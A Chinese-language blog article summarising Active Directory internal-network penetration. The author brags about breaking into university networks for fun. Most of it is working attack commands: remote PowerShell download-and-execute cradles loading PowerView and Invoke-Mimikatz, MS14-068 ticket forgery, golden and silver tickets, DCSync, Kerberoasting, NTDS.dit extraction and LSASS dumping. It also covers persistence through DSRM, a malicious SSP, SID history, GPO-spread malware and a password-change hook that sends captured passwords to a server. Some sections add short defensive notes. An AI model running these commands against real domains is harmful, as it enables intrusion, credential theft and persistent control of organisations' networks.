我所了解的内网渗透 - 内网渗透知识大总结

在没工作之前我常年搞各种高校的网络，边界口漏洞多容易进入而内网机器环境多不严格真是内网渗透的好地方，最后被誉为”学校杀手”，之前搞学校方法简单而粗爆很多内网常识都不懂就是各种扫，反正学校管理员的密码都是一样的就算不是域控密码基本都是一样，就算密码不是一样都是有规律。不过没有任何目的就是一味着登录各种系统的快感，输入密码按下回车键进入的快感。
信息收集
网上各种前期信息收集的文章各种net view之类的这里就不贴了。
一般想知道哪一台是域控知道自己内网的DNS就可以了，一般域控安装都有安装DNS有些不止一台，其次是通过扫描获取开放端口为389机器或者使用NLTEST命令查看。最后就是各种网络查看查看域控是哪台主机
nltest /DCLIST:pentest.com
这里利用PowerTools的中的PowerView的信息收集其实很多功能都是净命令这里只是以PowerShell的方式实现
Powershell.exe -Nop -NonI -Exec Bypass "IEX (New.ObjectNet.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview.ps1');Get-HostIP"
更详细参考：域渗透信息收集PowerTools的
https://github.com/cheetz/PowerTools
Get-NetDomain - gets the name of the current user's domain
Get-NetForest - gets the forest associated with the current user's domain
Get-NetForestDomains - gets all domains for the current forest
Get-NetDomainControllers - gets the domain controllers for the current computer's domain
Get-NetCurrentUser - gets the current [domain\]username
Get-NetUser - returns all user objects, or the user specified (wildcard specifiable)
Get-NetUserSPNs - gets all user ServicePrincipalNames
Get-NetOUs - gets data for domain organization units
Get-NetGUIDOUs - finds domain OUs linked to a specific GUID
Invoke-NetUserAdd - adds a local or domain user
Get-NetGroups - gets a list of all current groups in the domain
Get-NetGroup - gets data for each user in a specified domain group
Get-NetLocalGroups - gets a list of localgroups on a remote host or hosts
Get-NetLocalGroup - gets the members of a localgroup on a remote host or hosts
Get-NetLocalServices - gets a list of running services/paths on a remote host or hosts
Invoke-NetGroupUserAdd - adds a user to a specified local or domain group
Get-NetComputers - gets a list of all current servers in the domain
Get-NetFileServers - get a list of file servers used by current domain users
Get-NetShare - gets share information for a specified server
Get-NetLoggedon - gets users actively logged onto a specified server
Get-NetSessions - gets active sessions on a specified server
Get-NetFileSessions - returned combined Get-NetSessions and Get-NetFiles
Get-NetConnections - gets active connections to a specific server resource (share)
Get-NetFiles - gets open files on a server
Get-NetProcesses - gets the remote processes and owners on a remote server获取域方法
SYSVOL
SYSVOL是指存储域公共文件服务器副本的共享文件夹，它们在域中所有的域控制器之间复制.Sysvol文件夹是安装AD时创建的，它用来存放GPO，脚本等信息。同时，存放在Sysvol文件文件夹中的信息，会复制到域中所有DC上。
使用组策略首选项配置组策略批量修改用户本地管理员密码
开始 - >管理工具 - >组策略管理 - >在这个域中创建GPO
设置 - 右键 - 编辑 - 用户配置 - 首选项 - 控制面板设置 - 本地用户和组

更新管理员密码：

域服务器一般都会共享这个文件夹，或者搜索当前机器下的XML文件将包含凭据：groups.xml，scheduledtasks.xml，services.xml中，datasources.xml。
映射驱动（Drives.xml）
数据源（DataSources.xml）
打印机配置（Printers.xml）
创建/更新服务（services.xml中）
计划任务（ScheduledTasks.xml）

由于经过身份验证的用户（任何域用户或受信任域中的用户）具有对SYSVOL的读取权限
\192.168.50.205sysvolpentest.comPolicies{84017B64-2662-4BA3-A06C-FB953CCBE92D}UserPreferencesGroups.xml
经过AES-256位加密
cpassword="fUCMHAw9I2PdYRZEBMS54IvtPHX3ni44qRkWtfBtxoA"可以使用AES私钥解密GPP密码
微软在MSDN上发布了AES加密密钥（共享密钥）
https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx
使用PowerShell的脚本解密
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

寻找SYSVOL里的密码和攻击GPP（组策略偏好）
http://www.freebuf.com/vuls/92016.html
Windows Server 2008 R2之四管理Sysvol文件夹
http://blog.51cto.com/ycrsjxy/203095
SYSVOL中查找密码并利用组策略首选项
https://adsecurity.org/?p=2288
利用SYSVOL还原组策略中保存的密
https://xianzhi.aliyun.com/forum/topic/1653/?accounttraceid=c4c9a768-4a9f-42f8-b1e1-f8707574eeb9
防：
在用于管理GPO的计算机上安装KB2962486，以防止将新凭据置于组策略首选项中。
设置每个人访问权限
不在组策略中使用域控密码
设置共享文件夹SYSVOL的访问权限
删除现有的GPP里包含密码的XML文件。
MS14-068 Kerberos
Kerberos的是西方神话中守卫地狱之门的三头犬的名字。只所以使用这个名字是因为Kerberos的需要三方的共同参与，才能完成一次事务处理。
Kerberos是Windows活动目录中使用的客户/服务器认证协议，为通信双方提供双向身份认证。相互认证或请求服务的实体被称为委托人（principal）。参与的中央服务器被称为密钥分发中心（简称KDC）.KDC有两个服务组成：身份验证服务（认证服务器，简称AS）和票据授予服务（Ticket Granting Server，简称TGS）。在Windows域环境下，身份验证服务和票据授予服务可同时运行在任何可写域控服务器上。
更多阅读：
的Kerberos协议的滥用
http://www.freebuf.com/articles/system/45631.html
Kerberos的的工作原理
http://adsecurity.org/?p=227
最根本的问题在于权限属性证书可以被伪造，权限属性证书中存储帐号用户名，ID，组成员等信息，掌握域用户一些基本信息就可以获取域管理员权限
攻击者可以有效地重写有效的Kerberos TGT身份验证票据，使其成为域管理员（和企业管理员）
https://github.com/bidord/pykek/archive/master.zip
https://github.com/gentilkiwi/mimikatz/releases/
apt-get install krb5-userapt-get install rdateMS14-068过程：
请求没有PAC的Kerberos TGT认证票据作为标准用户，DC回复TGT
生成一个伪造的PAC，没有密钥，所以生成的PAC使用域用户的密码数据用MD5算法而不是HMAC_MD5“签名”。
作为TGS服务票据请求的一部分，使用伪造的PAC作为授权数据发送无PAC的TGT到DC。
DC似乎被这个混淆了，所以它放弃了用户发送的不含PAC的TGT，创建一个新的TGT，并将伪造的PAC插入到它自己的授权数据中，并将这个TGT发送给用户。
这个伪造PAC的TGT使得用户可以成为易受攻击的DC上的域管理员。
whoami /user
python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机产生缓存的票据，在当前卡利下生成之后再放到域用户机器中

利用mimikatz将工具得到的TGT_domainuser@SERVER.COM.ccache写入内存，创建缓存证书：
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
klist查看
net use k: \pentest.comc$dir k：

相关资料：
Kerberos的工具包PyKEK
http://adsecurity.org/?p=676
深入解读MS14-068漏洞
http://www.freebuf.com/vuls/56081.html
Kerberos的安全漏洞
http://adsecurity.org/?p=541
防：
安装检查KB3011780的安装
SPN扫描
Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包
SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内置帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户手动注册SPN。
SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。
powershell -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PyroTek3/PowerShell-AD-Recon/master/Discover-PSMSSQLServers'); Discover-PSMSSQLServers"
扫描SQL Server脚本
https://github.com/nullbind/Powershellery/tree/master/Stable-ish/MSSQL
Import-Module .Get-SQLServerAccess.psm1PS C:Get-SqlServer-Escalate-CheckAccess
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00 [*] Domain: mydomain.com
[*] DC: dc1.mydomain.com [*] Getting list of SQL Server instances from DC as mydomainmyuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomainmyuser...
[*] ----------------------------------------------------------------------
[-] Failed - server1.mydomain.com is not responding to pings
[-] Failed - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server3.mydomain.comSQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.comAppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.
[*] End Time: 04/01/2014 10:02:00 [*] Total Time: 00:02:00 [*] ----------------------------------------------------------------------通过LDAP从ADS获取SQL Server的列表，然后试图用当前域用户登陆每一个SQL Server。这次将输出到CSV文件中。
PS C:Get-SQLServerAccess -ShowSum | export-csv c:tempsql-server-excessive-privs.csv
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomainmyuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomainmyuser...
[*] ----------------------------------------------------------------------
[-] Failed - server1.mydomain.com is not responding to pings
[-] Failed - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server3.mydomain.comSQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.comAppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.
[*] End Time: 04/01/2014 10:02:00 [*] Total Time: 00:02:00[*] ----------------------------------------------------------------------弱口令猜解
Get-SQLServerAccess -sqluser sa -sqlpass 123qwe!@#寻找敏感数据
Get-SQLServerAccess -query "select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1"更多参考：
非扫描式的SQL Server发现
https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning
相关资料：
SPN扫描
https://adsecurity.org/?p=1508
扫描SQLServer的脚本
https://github.com/PyroTek3/PowerShell-AD-Recon
Kerberos的黄金门票
https://adsecurity.org/?p=1640
域服务账号破解实践
http://bobao.360.cn/learning/detail/3564.html
Kerberos的认证原理
http://blog.csdn.net/wulantian/article/details/42418231
深刻理解windows安全认证机制ntlm＆Kerberos
的Kerberos身份验证流程
https://klionsec.github.io/2016/08/10/ntlm-kerberos/

密码转换为NTLM哈希值，时间戳使用散列加密，并作为身份验证票据（TGT）请求（AS-REQ）中的身份验证器发送给KDC。
域控制器（KDC）检查用户信息（登录限制，组成员身份等）并创建票证授予票证（TGT）。
TGT被加密，签名并交付给用户（AS-REP）。只有域中的Kerberos的服务（KRBTGT）才能打开并读取TGT数据。
用户在申请票证授予服务（TGS）票证（TGS-REQ）时向TG提交TGT.DC打开TGT并验证PAC校验和 - 如果DC可以打开票证和校验和签出，则TGT =有效.TGT中的数据被有效地复制来创建TGS票据。
使用目标服务帐户的NTLM密码散列对TGS进行加密并发送给用户（TGS-REP）。
用户在适当的端口上连接到托管服务的服务器并呈现TGS（AP-REQ）。该服务使用其NTLM密码散列打开TGS票证。
其实可以说是一种后门而不是什么漏洞。
黄金票据是伪造TGT，可以获取任何Kerberos的服务权限，与域控制器没有AS-REQ或AS-REP（步骤1和2）通信。由于黄金票据是伪造的TGT，它作为TGS-REQ的一部分被发送到域控制器以获得服务票据。
Kerberos黄金票证是有效的TGT Kerberos票证，因为它是由域Kerberos帐户（KRBTGT）加密/签名的.TGT仅用于向域控制器上的KDC服务证明用户已被其他域控制器认证.TGT被KRBTGT密码散列加密并且可以被域中的任何KDC服务解密的事实证明它是有效的

利用条件：
1.普通域用户
2.krbtgt ntlm哈希
3.域SID
在域上抓取的哈希
lsadump::dcsync /domain:pentest.com /user:krbtgt
kerberos::purgekerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 /ticket:adinistrator.kiribi
kerberos::ptt administrator.kiribi
kerberos::tgt
net use k: \pentest.comc$Kerberos的银票务
攻击者如何使用Kerberos的银票来利用系统
https://adsecurity.org/?p=2011
https://www.feiworks.com/wy/drops/域渗透--pass％第二十条％20Ticket.pdf
https://www.feiworks.com/wy/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Pass%20The%20Ticket.pdf
黄金票据和白银票据的一些区别：
Golden Ticket：伪造TGT，可以获取任何Kerberos服务权限
Silver Ticket：伪造TGS，只能访问指定的服务
加密方式不同：
Golden Ticket由krbtgt的哈希加密
Silver Ticket由服务账号（通常为计算机账户）Hash加密
认证流程不同：
Golden Ticket在使用的过程需要同域控通信
Silver Ticket在使用的过程不需要同域控通信
用户在适当的端口上连接到托管服务的服务器并呈现TGS（AP-REQ）。该服务使用其NTLM密码散列打开TGS票证。
与域控制器没有AS-REQ / AS-REP（步骤1和2），也没有TGS-REQ / TGS-REP（步骤3和4）通信。由于银票是伪造的TGS，所以没有与域控制器通信。

银票是伪造的Kerberos的票证授予服务（TGS）票据，也称为服务票据。
域上获取信息
mimikatz log "sekurlsa::logonpasswords"首先需要获得如下信息:
/domain
/sid
/target:目标服务器的域名全称，此处为域控的全称
/service:目标服务器上面的kerberos服务，此处为cifs
/rc4:计算机账户的NTLM hash，域控主机的计算机账户
/user:要伪造的用户名，此处可用silver测试
mimikatz.exe "kerberos::golden /domain:域 /sid:SID /target:域全称 /service:要访问的服务 /rc4:NTLM /user:silver /ptt"
就可以访问域的cifs共享，访问其它是不行的，Silver Ticket是伪造的TGS，也就是说其范围有限，只能访问指定的服务权限
域服务账号破解
与上面SPN扫描类似的原理
https://github.com/nidem/kerberoast
获取所有用作SPN的帐户
setspn -T PENTEST.com -Q */*
从Mimikatz的RAM中提取获得的门票
kerberos::list /export
用rgsrepcrack破解
tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi没复现成功
凭证盗窃
最常用的手法域管理登录历史记录，记得获取某边界权限一个然后抓取散列并没有域管理的，可能是搞的动静有点大，管理员第二天上去把马给清除了，还好留了有后门再次抓取哈希直接获取到域管理员。
大多数Active Directory管理员使用用户帐户登录到其工作站，然后使用RunAs（将其管理凭据放置在本地工作站上）或RDP连接到服务器运行Mimikatz读取密码，收集密码尝试登录管理员机器一般只要域管理员登录过的机器抓取都可以获取域控了
防：管理员不应该拿着域用户去登录web服务器或者邮件服务器一但这些被攻破抓取的密码就是域了
地址解析协议
最后才是ARP欺骗不到最后不要拿出来。
Responder
cain
ettercap
BDFProxy
获取AD哈希
攻击者如何转储Active Directory数据库
https://adsecurity.org/?p=2398
活动目录数据库（NTDS.DIT）
Active Directory域数据库存储在ntds.dit文件中（默认存储在c：WindowsNTDS中，AD数据库是Jet数据库引擎，它使用提供数据存储和索引服务的可扩展存储引擎（ESE）ESE级索引引对对象属性可以快速定位.ESE确保数据库符合ACID（原子性，一致性，隔离性和持久性） - 交易中的所有操作完成或不执行.AD ESE数据库非常快速和可靠。

目录分区
NTDS.DIT文件由三个主表组成：数据表，链接表和SD表。
具体详细资料查看：
https://technet.microsoft.com/en-us/library/cc772829(v=ws.10).aspx
使用VSS卷影副本
什么是卷影副本？
卷影副本，也称为快照，是存储在Data Protection Manager（DPM）服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享，文件夹和文件的完整时间点副本。
支持操作系统：
Windows Server 2003，Windows Server 2008，Windows Server 2003 R2，Windows Server 2008 R2，Windows Server 2012，Windows 8
通常拿下一台服务器时准备内网渗透，需要传你的工具到目标机器中，而且是长久渗透的这种，为了不被发现！获取系统SAM文件等
使用VSS卷影副本（通过WMI或PowerShell的远程处理）远程提取NTDS.DIT
窗口有一个名为WMI的内置管理组件，支持远程执行（需要管理员权限）.WMIC是在远程计算机上执行命令的WMI命令工具。
利用WMIC（或PowerShell的远程处理）创建（或复制现有的）VSS。
wmic /node:AD /user:PENTESTAdministrator /password:123qweQWE!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
查看vss.log

wmic /node:AD /user:PENTESTadministrator /password:123qwe!@#!@# process call create "cmd /c copy 卷影IDWindowsNTDSNTDS.dit C:windowstempNTDS.dit 2>&1"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@# process call create "cmd /c copy 卷影IDWindowsSystem32configSYSTEM c:windowstempSYSTEM.hive 2>&1"
net use k: \pentest.comc$
利用这种方法可以和上面的Kerberos的票结合来实现
使用DIT Snapshot Viewer可以验证我们是否成功地获得了ntds.dit文件。
https://github.com/yosqueoy/ditsnap

Ntdsutil中获取NTDS.DIT文件
Ntdsutil.exe是一个为Active Directory提供管理设施的命令行工具。
使用NTDSUTIL的IFM创建（VSS卷影副本）在DC上本地引用NTDS.DIT
NTDSUtil是本地处理AD DB的命令实用程序（ntds.dit），并为DCPromo启用IFM集创建.IFM与DCPromo一起用于“从媒体安装”，因此被升级的服务器不需要通过网络从另一个DC复制域数据。
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q当创建一个IFM时，VSS快照被拍摄，挂载，NTDS.DIT文件和相关数据被复制到目标文件夹中。
此命令也可以通过WMI或PowerShell的远程执行。

PowerShell提取ntds.dit
使用PowerSploit的Invoke-NinjaCopy远程提取ntds.dit（需要在目标DC上启用PowerShell远程处理功能）。
Invoke-NinaCopy是一个PowerShell函数，它可以利用PowerShell远程处理（必须在目标DC上启用PowerShell远程处理），从远程计算机上复制文件（即使文件已锁定，可直接访问文件）。
https://github.com/PowerShellMafia/PowerSploit
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1'); Invoke-NinjaCopy -Path "C:windowsntdsntds.dit" -ComputerName "AD" -LocalDestination "C:tempntds.dit"使用Mimikatz提取
使用Mimikatz在提取Active Directory哈希
mimikatz lsadump::lsa /inject exit使用RID 502的帐户是KRBTGT帐户，使用RID 500的帐户是域的默认管理员。
获取对Active Directory数据库文件的访问权限（ntds.dit）
Active Directory数据库（ntds.dit）包含有关Active Directory域中所有对对象的所有信息
该文件还包含所有域用户和计算机帐户的密码哈希值。
有时候域控升级等会把NTDS.DIT备份文件可从共享服务器中找到可以不用直接从域控制复制
使用Mimikatz转储LSASS内存
sekurlsa::minidump c:templsass.dmp使用任务管理器（获取域管理员凭据）转储LSASS内存

使用PowerShell Mimikatz
使用PowerShell的
域必需要能上网否则这方法不可用
powershell IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit'无程获取
Powershell IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -Command ‘”privilege::debug” “LSADump:LSA /inject”‘ -Computer pentest.comMimikatz的DCSync
使用Mimikatz的DCSync远程转储Active Directory凭证
它有效地”模拟”域控制器并向目标域控制器请求帐户密码数据。
使用Mimikatz的DCSync和相应的权限，攻击者可以通过网络从域控制器中提取密码散列以及以前的密码散列，而无需交互式登录或复制Active Directory数据库文件（ntds.dit）
运行DCSync需要特殊权限。管理员，域管理员或企业管理员以及域控制器计算机帐户的任何成员都能够运行DCSync来提取密码数据。请注意，只读域控制器不仅可以默认为用户提取密码数据。

提取KRBTGT用户帐户的密码数据：
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：krbtgt"exit管理员用户帐户提取密码数据：
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：Administrator" exitNTDS.DIT中提取哈希
从NTDS.DIT中提取哈希
提取出来的文件通过ntdsdump是无法提取的通过esedbexport来恢复。
安装：
wget https://github.com/libyal/libesedb/releases/download/20170121/libesedb-experimental-20170121.tar.gz`
apt-get install autoconf automake autopoint libtool pkg-config
./configure
make
make install
ldconfigesedbexport -m tables ntds.dit大概需要（20-30分钟）
最后生成在./ntds.dit.export/
使用ntdsxtract提取域信息
git clone https://github.com/csababarta/ntdsxtract.git
python setup.py build && python setup.py install提取哈希:(这里需要将刚拷出来的三个文件中的系统复制到当前目录下）
$ dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user_info.txt这样提取出来之后已经是转换成hashcat可破解的格式
hashcat -m 1000 ntout ./password.txtAD持久化
活动目录持久性技巧
https://adsecurity.org/?p=1929
DS恢复模式密码维护
https://blogs.technet.microsoft.com/askds/2009/03/11/ds-restore-mode-password-maintenance/
DSRM密码同步
DSRM密码同步将域控权限持久化
获取到域控权限后如何利用DSRM密码同步将域管权限持久化。
Windows Server 2008需要安装KB961320补丁才能支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。
KB961320
https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni
巧用DSRM密码同步将域控权限持久化
http://drops.xmd5.com/static/drops/tips-9297.html

同步之后使用法国佬神器（mimikatz）查看KRBTGT用户和SAM中管理员的NTLM值。
可以看到两个账户的NTLM值相同，说明确实同步成功


修改注册表允许DSRM账户远程访问
修改注册表hkey_local_machineSystemCurrentControlSetControlLsa路径下的DSRMAdminLogonBehavior的值为2。
系统默认不存在DSRMAdminLogonBehavior，请手动添加。

使用HASH远程登录域控

DSRM账户是域控的本地管理员账户，并非域的管理员帐户。所以DSRM密码同步之后并不会影响域的管理员帐户。
事件查看器的安全事件中筛选事件ID为4794的事件日志，来判断域管是否经常进行DSRM密码同步操作。
缓解措施
对于这个问题的唯一有效的缓解措施就是确保每一台域控制器的DSRM账户密码是唯一的并且定期修改此密码。同时，确保注册表DsrmAdminLogonBehavior的值不为2，最好将其直接删除或者设置其值为1或0。
安全支持提供商
https://adsecurity.org/?p=1760
http://www.evil0x.com/posts/11354.html
直译为安全支持提供者又名安全包。
简单的理解为SSP就是一个DLL，用来实现身份认证
将mimilib.dll复制到域控C：/窗/ SYSTEM32下
设置SSP
修改域控注册表位置：
HKEY_LOCAL_MACHINE/System/CurrentControlSet/Control/Lsa/Security Packages/
Memory Updating of SSPs
privilege::debug
misc::memssp
c:/windows/system32可看到新生成的文件kiwissp.log

如果不是在域环境下生成的文件会在system32mimilsa.log
防：
检测注册表位置：
HKEY_LOCAL_MACHINE/System/CurrentControlSet/Control/Lsa/Security Packages/检测％WINDIR％/ System32下是否有可疑的dll

SID历史
https://adsecurity.org/?p=1772
SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户
mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"AdminSDHolder的＆SDPROP
利用AdminSDHolder的＆SDPROP（重新）获取域管理权限
https://adsecurity.org/?p=1906
AdminSDHolder是位于Active Directory中的系统分区
组策略
https://adsecurity.org/?p=2716
策略对象在持久化及横向渗透中的应用
https://www.anquanke.com/post/id/86531
组策略概述
组策略使管理员能够管理Active Directory中的计算机和用户。组策略保存为组策略对象（GPO）
攻击者可以滥用GPO，通过欺诈方式进一步自动化地传播恶意软件、实现持久化驻留目的
恶意软件可以利用GPO穿越IDS/IPS等防火墙，最终访问到域内所有的系统。
GPO的另一优点就是攻击过程期间并不需要目标系统在线，一旦离线状态下的目标系统重新登录到域中，恶意的GPO载荷就会被投递到目标系统。
组策略默认情况下每90分钟（域控制器5分钟）可包括安全选项，注册表项，软件安装以及启动和关闭脚本以及域成员刷新组策略设置。这意味着组策略在目标计算机上执行配置的设置。
SYSVOL是所有经过身份验证的用户具有读取权限的Active Directory中的域范围共享。SYSVOL包含登录脚本，组策略数据以及其他域控制器中需要使用的全域数据。
SYSVOL共享将自动同步并在所有域控制器之间共享。
其实我认为组策略也相当于远控,可以把配置脚本让域内的每一台电脑都种上马批量执行一遍。
或者每周在所有域上运行Mimikatz获取明文密码,以及获取某种类型文件这要通过编写脚本实现。
远程搜索某个本地文件（如proof.txt）
Get-Content <list of IPs> | ForEach-Object {Getwmiobject CIM_DataFile -filter »Drive=’c:’ AND Filename=’proof’ AND extension=’txt’ -Impersonate 3 -computername $_ | Select PSComputername, Name -Unique}一篇文章精通PowerShell Empire 2.3（上）
防：
定期审核GPO。
为GPO使用定义清晰的命名约定
记录GPO的创建动作
Hook PasswordChangeNotify
http://wooyun.jozxing.cc/static/drops/tips-13079.html
介绍一个更加隐蔽且不需要使用Mimikatz的后门方法，通过Hook PasswordChangeNotify拦截修改的帐户密码。
在修改域控密码时会进行如下同步操作：
a. 当修改域控密码时，LSA首先调用PasswordFileter来判断新密码是否符合密码复杂度要求
b. 如果符合，LSA接着调用PasswordChangeNotify在系统上同步更新密码

函数PasswordChangeNotify存在于rassfm.dll
poc下载地址：https：
https://github.com/clymb3r/Misc-Windows-Hacking
使用VS2015开发环境，MFC设置为在静态库中使用MFC
编译工程，生成HookPasswordChange.dll
下载PowerShell的的DLL注入脚本
https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1
在代码尾部添加如下代码：
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll –procname lsass并命名为HookPasswordChangeNotify.ps1
上传HookPasswordChangeNotify.ps1和HookPasswordChange.dll
管理员权限执行：
PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
将获取到的密码上传到HTTP服务器：
http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html

其他补充
Kerberos AD认证过程
https://adsecurity.org/?p=227
Kerberos＆KRBTGT帐号介绍
http://adsecurity.org/?p=483
lapsg理解
https://adsecurity.org/?p=1790
Active Directory攻击和防御资源
https://adsecurity.org/?p=1681
烂土豆 - 从服务帐户到系统的特权升级
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
Mimikatz非官方文档
https://adsecurity.org/?page_id=1821#SEKURLSALogonPasswords
linux / UNIX / BSD的后期渗透思路
http://bit.ly/pqJxA5
Metasploit的后期渗透思路
http://bit.ly/JpJ1TR
作者：mx7krshell
来源：安全客